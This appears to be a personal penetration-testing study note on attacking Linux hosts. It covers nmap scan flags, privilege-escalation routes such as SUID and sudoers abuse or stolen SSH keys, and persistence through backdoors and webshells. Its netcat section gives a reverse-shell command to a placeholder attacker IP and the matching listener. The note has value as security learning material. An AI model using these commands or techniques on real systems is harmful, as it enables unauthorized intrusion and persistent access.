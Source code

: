# attacking linux

### recon

Look for:

* insecure services on open ports
* common protocols
* insecure version of software
* websites, login pages, ssh, databases, ftp
* scripts, misconfigured permissions, other vulns

Common things

* weak creds
* generous permissions
* vague variables

### nmap

##### flags

* `-sS` - TCP syn port scan
  * we send SYN, server sends ACK or SYN/ACK, that means port is open
  * stealthy scan and very fast
  * default w/ root
* `-sT` - TCP connect port scan
  * establishes full connection then tears down connection
  * default w/out root
* `-sU` - UDP port scan
  * scans for UDP ports
* `-sA` - TCP ack port scan
  * uses packets with only ACK flag, check whether firewall is stateful or stateless
* `-sC` - default scripted scan
* `-sV` - version lookup
* `-oA` - output in all formats
* `-v` - verbose

##### sample

```bash
nmap <ip-address>
```

### netcat

* `nc <attacker-ip> <port-number> -c /bin/bash`

* `nc -nvlp <port-number>`

### privilege escalation vs exploitation

* exploit some vuln to escalate
* exploitation doesn't have to escalate
* to escalate, you need to exploit

##### how to escalate

* abuse crontabs
* abuse suid/guid
* edit/abuse misconfigured files
  * `/etc/sudoers`
  * sshd.config file
* guess/crack pw
* steal/abuse ssh keys
* find other running services
* environment variables
* use known shell exploits
* read command history

### persistence

* reverse shells (netcat)
* setup your own services/backdoors
  * webshell (user is www-data)
* get info about system
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md


